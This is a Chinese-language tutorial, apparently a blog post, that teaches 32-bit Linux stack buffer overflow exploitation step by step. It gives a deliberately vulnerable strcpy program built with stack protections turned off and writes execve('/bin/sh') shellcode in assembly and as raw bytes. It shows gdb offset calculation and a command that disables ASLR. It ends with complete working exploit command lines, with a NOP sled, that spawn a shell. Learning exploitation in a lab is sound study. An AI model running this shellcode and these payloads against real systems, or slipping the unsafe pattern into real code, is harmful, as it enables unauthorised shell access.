


## 栈溢出（stack overflow）原理

程序被载入系统（开始运行）时，系统会分配给程序一段内存供程序保存信息以及使用。这段内存包含有多个区域，比如代码区，全局数据区，动态链接库区，堆区，栈区等等。栈区是用来存储程序的局部信息，保存了程序调用函数的运行时状态信息，比如函数参数、局部变量等。函数外部定义的变量在全局数据区，而程序运行过程中动态分配的内存，如使用malloc()、new()等函数分配的内存，都位于堆区。

<!-- more -->

当发生函数调用的时候，例如在main()函数中调用my_func()函数，其中main()被称为caller（调用者），my_func()被称为callee（被调用者）。当程序进行到调用my_func()这一步时，main()函数的运行时信息已经在栈中了。调用my_func()函数会将该函数的运行时信息压入栈顶。调用结束后，会弹出这部分信息，恢复到只有main()信息的状态。

对于函数来说，保存其运行时状态的那一部分栈被叫做该函数的栈帧。

函数my_func()的栈帧如下：

````c
void my_func(char* str1, char *str2) {
    int a = 0;
    char buffer[4];
    strcpy(buffer, str1);
}
````




入栈顺序：

- 调用函数caller压入当前需要保存的寄存器信息，例如eax、ecx、edx等
- 对被调用函数callee（这里是my_func()函数）的参数，**从右往左**依次压入栈，即str2先入栈，str1再入栈`以上部分都是作为caller的函数状态，之后入栈的数据才是作为callee的函数状态保存`
- 压入返回地址（即caller调用callee的下一条指令）
- 调用函数caller的基地址寄存器ebp入栈（同时更新ebp寄存器的值为当前栈顶的地址，也就是ebp变成了callee的基地址）
- 声明的局部变量a，buffter依次入栈
- callee需要保存的寄存器信息，例如ebx、esi、edi等

函数调用结束时，栈会丢弃被调用函数callee的状态，并将栈顶恢复为调用函数caller时的状态。

- 依次将callee的寄存器信息，局部变量等弹出
- 将调用函数caller的基地址弹出，保存到ebp寄存器中（恢复了调用之前的栈基地址）
- 将返回地址从栈内弹出，保存到eip寄存器内（即将执行的下一条指令）
- 弹出保存的调用函数caller的寄存器信息，并保存到对应寄存器中

这样，调用函数caller的所有信息都恢复到调用之前了，接下来跳转到eip处继续执行程序指令。

利用栈溢出漏洞的核心思想是，通过对函数栈上状态信息的修改，使其数据溢出，将攻击指定覆盖返回地址。这样在函数调用栈恢复后，跳转到返回地址执行时，实际上是跳到我们的攻击指令处执行。

## 漏洞代码

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
	char buffer[128];
	if (argc < 2) {
        printf("Please input one argument!\n");
        return -1;
    }
	strcpy(buffer, argv[1]);
	printf("argv[1]: %s\n", buffer);
	return 0;
}
```

为了能够进行最简单的栈溢出利用，我们需要在编译上面代码的时候加一些编译选项：-z execstack  关闭栈不可执行选项，-fno-stack-protector 关闭栈canary保护。

编译命令`gcc -z execstack -fno-stack-protector test.c -m32`，默认生成a.out可执行文件。

上述代码主要是通过strcpy函数来实现栈溢出的，strcpy是在执行拷贝的时候，是从低地址向高地址拷贝，而且是不会比较两个参数的size的，因此我们的buffer虽然长度为128个字节，但是如果输入的参数大于这个长度，比如136个字节，则会造成剩余的8个字节将会覆盖到ebp以及返回地址处，如下图：


这样我们就能控制程序跳转到什么地方执行了。

## 制作shellcode

### shellcode简介

shellcode是指在漏洞利用中经常用的到一小段代码(code)。由于它经常被用来启动受害机器的shell，所以叫做shellcode。在本文中将会编写一个利用execve系统调用来启动一个shell的shellcode。

在上述代码中，可以有几种方式跳转到shellcode执行。

一种是将shellcode放到返回地址之前，即buffer[128]+ebp，共132字节里，return address设置跳到shellcode处，这种方法比较简单，缺点是有大小限制。



一种是将shellcode放到返回地址之后，如下图。但如果我们的漏洞不能溢出这么多字节，比如只能溢出16个字节，则无法采用这种方式。


还有一种方法又叫做jmp esp。将返回地址修改为内存中某处固定的jmp esp指令的地址，因为当返回地址出栈时，esp刚好指向返回地址之后的地址，跟上面的第二种方式异曲同工。这种方法的好处是，不需要知道当前栈的地址。（比较早的方法，现在已经不太常用了）

### 编写shellcode

前面提到，我们的shellcode是通过execve来启动一个shell。

```c
int execve(const char *filename, char *const argv[], char *const envp[])；
```

因为我们的shellcode要求尽可能的短，因此我们调用的函数及参数为`execve("/bin/sh", Null, Null)`。

具体的shellcode会因为系统平台不同而不同，本文是在32位linux系统上编写执行的。

首先我们需要了解一下在32位linux平台上的系统调用约定syscall。

```shell
 Syscall调用约定：
 1. 系统调用号syscall number存放在eax中（execve是11，%eax=0xb）
 2. 第1个参数保存在ebx中（%ebx=filename）
 3. 第2个参数保存在ecx中 （%ecx=argv）
 4. 第3个参数保存在edx中（%edx=envp=0）
 5. 第4、5、6个参数分别保存在寄存器esi、edi、ebp中
```

```assembly
xor %eax, %eax    ;eax 清零
pushl %eax        ;eax 入栈
push $0x68732f2f  ;"//sh" 入栈，两个/是为了凑4字节，让shellcode中没有0，对于Linux，/和//是一样的作用
push $0x6e69622f  ;"/bin" 入栈
movl %esp, %ebx   ;将esp值放入ebx
pushl %eax        ;将0压入栈
pushl %ebx        ;将"/bin//sh"的地址指针入栈
movl %esp, %ecx   ;将esp值放入ecx，即ecx=["/bin//sh", 0]，这里用xor %ecx, %ecx也可以
cltd              ;有符号展开，将32位的值展开为64位，eax -> edx:eax，即将edx也设为0，也是为了让shellcode中不含0值，因为0会截断shellcode
movb $0xb, %al    ;传入系统调用数
int $0x80         ;进入系统调用
```

以上是shellcode。

### 测试shellcode

我们需要对已经编写好的shellcode进行测试，看是否可以达到目的。

```c
void shellcode() {
    __asm__(
"xor %eax, %eax\n\t"
"pushl %eax\n\t"
"push $0x68732f2f\n\t"
"push $0x6e69622f\n\t"
"movl %esp, %ebx\n\t"
"pushl %eax\n\t"
"pushl %ebx\n\t"
"movl %esp, %ecx\n\t"
"cltd\n\t"
"movb $0xb, %al\n\t"
"int $0x80\n\t"
);
}
int main() {
    shellcode();
    return 0;
}
```

编译并执行：

```shell
$gcc -m32 test.c -o shellcode
$./shellcode
sh-4.2#     #进入shell了
```

这里是采用内联（inline）汇编的方式测试的shellcode，也可以用汇编器as直接编译汇编代码，用pwntools工具可以直接编译shellcode等。

### 提取shellcode

一种比较原始的shellcode提取方法是采用objdump命令。

```shell
$objdump -d shellcode
...
080483dd <shellcode>:
 80483dd:	55                   	push   %ebp
 80483de:	89 e5                	mov    %esp,%ebp
 80483e0:	31 c0                	xor    %eax,%eax //从这里开始
 80483e2:	50                   	push   %eax
 80483e3:	68 2f 2f 73 68       	push   $0x68732f2f
 80483e8:	68 2f 62 69 6e       	push   $0x6e69622f
 80483ed:	89 e3                	mov    %esp,%ebx
 80483ef:	50                   	push   %eax
 80483f0:	53                   	push   %ebx
 80483f1:	89 e1                	mov    %esp,%ecx
 80483f3:	99                   	cltd   
 80483f4:	b0 0b                	mov    $0xb,%al
 80483f6:	cd 80                	int    $0x80
 ...
```

以上这段的机器码就是我们的shellcode 了，`shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"`。

测试（以下代码是通用的shellcode测试程序，其他的shellcode只需要修改shellcode数组中的字符串）：

```c
char shellcode[] ="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";

int main() {
    void(*f)()=(void(*)())shellcode;  //强类型转换，将shellcode数组转换为函数指针
    f();
    return 0;
}
```

编译需加上栈可执行选项，`gcc -z execstack -m32 test.c -o shellcode`，因为shellcode是函数外部的变量，存储在全局字符数组中，位于.data section中，默认是不可执行的。所以需要加上选项-z execstack，开启栈/堆/数据段可执行。之后运行`./shellcode`t可以正常进入shell，表明shellcode构造成功。

## 栈溢出简单利用

### 计算缓冲区长度

首先我们需要计算从缓冲区开头到栈上的返回地址长度，这样才能准确覆盖到返回地址。这里通过gdb下断点查看，也可以通过pwntools里的cyclic工具来计算缓冲区长度。

```shell
$gdb -q --args a.out XXX   #gdb 进入a.out，带上参数XXX
Reading symbols from /home/scbox/Documents/a.out...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/scbox/Documents/a.out XXX
argv[1]: XXX
[Inferior 1 (process 41732) exited normally]
Missing separate debuginfos, use: debuginfo-install glibc-2.17-307.el7.1.i686
(gdb) disassemble main #查看main的汇编代码
Dump of assembler code for function main:
   0x0804846d <+0>:	push   %ebp
   0x0804846e <+1>:	mov    %esp,%ebp
   0x08048470 <+3>:	and    $0xfffffff0,%esp
   0x08048473 <+6>:	sub    $0x90,%esp
   0x08048479 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x0804847d <+16>:	jg     0x8048492 <main+37>
   0x0804847f <+18>:	movl   $0x8048564,(%esp)
   0x08048486 <+25>:	call   0x8048340 <puts@plt>
   0x0804848b <+30>:	mov    $0xffffffff,%eax
   0x08048490 <+35>:	jmp    0x80484c3 <main+86>
   0x08048492 <+37>:	mov    0xc(%ebp),%eax
   0x08048495 <+40>:	add    $0x4,%eax
   0x08048498 <+43>:	mov    (%eax),%eax
   0x0804849a <+45>:	mov    %eax,0x4(%esp)
   0x0804849e <+49>:	lea    0x10(%esp),%eax
   0x080484a2 <+53>:	mov    %eax,(%esp)
   0x080484a5 <+56>:	call   0x8048330 <strcpy@plt> #此处设置断点1
   0x080484aa <+61>:	lea    0x10(%esp),%eax
   0x080484ae <+65>:	mov    %eax,0x4(%esp)
   0x080484b2 <+69>:	movl   $0x804857f,(%esp)
   0x080484b9 <+76>:	call   0x8048320 <printf@plt>
   0x080484be <+81>:	mov    $0x0,%eax
   0x080484c3 <+86>:	leave  
   0x080484c4 <+87>:	ret    #设置断点2
End of assembler dump.
(gdb) b *0x080484a5
Breakpoint 1 at 0x80484a5
(gdb) b *0x080484c4
Breakpoint 2 at 0x80484c4
(gdb) r
Starting program: /home/scbox/Documents/a.out XXX

Breakpoint 1, 0x080484a5 in main ()
(gdb) x/2wx $esp #查看断点1处的esp，这里参数已经入栈了，0xffffd080是strcpy的第一个参数，即buffer的起始地址（main函数的局部变量）
0xffffd070:	0xffffd080	0xffffd361
(gdb) c
Continuing.
argv[1]: XXX

Breakpoint 2, 0x080484c4 in main ()
(gdb) x/wx $esp #断点2处的esp就是main函数的返回地址
0xffffd10c:	0xf7e122a3
(gdb) p/d 0xffffd10c-0xffffd080 #相减得到缓冲区长度（不包括返回地址）
$1 = 140
```

### 漏洞利用

为了降低漏洞利用的难度，我们先关闭系统的ASLR机制（地址随机化）。命令`echo 0 > /proc/sys/kernel/randomize_va_space`，将文件的值设置为0（这是临时设置，重启后无效，永久设置，需在/etc/sysctl.conf，添加kernel.randomize_va_space = value）。

```shell
[root@scbox-1596421650158 Documents]# gdb -q --args a.out $(python -c 'print "A" * 140 + "BBBB"')

Reading symbols from /home/scbox/Documents/a.out...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/scbox/Documents/a.out AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
argv[1]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-307.el7.1.i686
(gdb) x/10x $esp -160  #缓冲区开头地址为0xffffcff0
0xffffcfe0:	0x0804857f	0xffffcff0	0x00000001	0xf7ffd900
0xffffcff0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd000:	0x41414141	0x41414141
(gdb) x/10x $esp -20
0xffffd06c:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd07c:	0x42424242	0x00000000	0xffffd114	0xffffd120
0xffffd08c:	0xf7fd86b0	0x00000001
```

在shell中$()表示执行输入的命令，这里我们将a.out的输入参数变为140个A+4个B。可以看到程序发生了segmentation fault错误，就是因为返回地址变为了0x42424242。打印esp也可以看到我们的填充是成功了的。

那么接下来我们使用sehllcode来填充buffer，剩余的用A字符，最后的返回地址填buffer的起始地址，这样程序跳转到返回地址执行的时候，就会执行我们的shellcode。

```shell
$ gdb -q --args a.out $(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * (140 - 24) + "\xf0\xcf\xff\xff"')
Reading symbols from /home/scbox/Documents/a.out...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/scbox/Documents/a.out 1�Ph//shh/bin��PS�ᙰ
                                                                 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
argv[1]: 1�Ph//shh/bin��PS�ᙰ
                            AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
process 16289 is executing new program: /usr/bin/bash
Missing separate debuginfos, use: debuginfo-install glibc-2.17-307.el7.1.i686
sh-4.2#   #进入shell了！
```

以上是在gdb中使用shellcode，但是直接运行shellcode，其实并不能执行，因为gdb会为程序增加一些存储在栈上的环境变量（便于调试），这样的话，栈用得更多，栈地址就会变低。直接运行的时候栈地址比gdb中的高，所以不能执行。

那么我们的解决办法是，把0xffffcff0栈地址增加到0xffffd02c（增加60个字节），然后增加的这部分填充为NOP指令，这样返回地址为60个字节地址中的任意一个，都可以执行到我们的shellcode。

```shell
$ ./a.out $(python -c 'print "\x90" * 60 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * (140 - 60 - 24)+ "\x2c\xd0\xff\xff"')
argv[1]: ������������������������������������������������������������1�Ph//shh/bin��PS�ᙰ
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,���
sh-4.2# 
```

成功啦！